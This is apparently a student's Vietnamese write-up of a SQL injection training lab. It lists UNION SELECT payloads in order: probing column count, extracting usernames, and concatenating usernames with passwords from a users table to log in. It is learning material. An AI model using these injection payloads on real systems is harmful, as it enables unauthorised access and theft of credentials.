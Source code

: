 # Triển khai Lap
###### Kiểm tra số cột và kiểm tra dữ liệu cột, em đã tìm được 2 cột và chỉ có cột thứ 2 trả về dữ liệu: `' UNION SELECT null, 'a'-- -`
![alt text](image.png)
######  truy vấn thì kết quả chỉ có username:  `' UNION SELECT null, username FROM users-- -`
![alt text](image-1.png)
######  thử cách nối chuỗi trong SQL injection cheat sheet và kết quả là lấy được cả pass và username.  `' UNION SELECT null, username || password FROM users-- -`
![alt text](image-2.png)
###### Sửa lại câu truy vấn cho dễ nhìn bằng cách thêm ký tự giữa username và password sau đó lấy accout đăng nhập là hoàn thành lab.  `' UNION SELECT null, username || '------ ' ||password FROM users-- -`
![alt text](image-3.png)
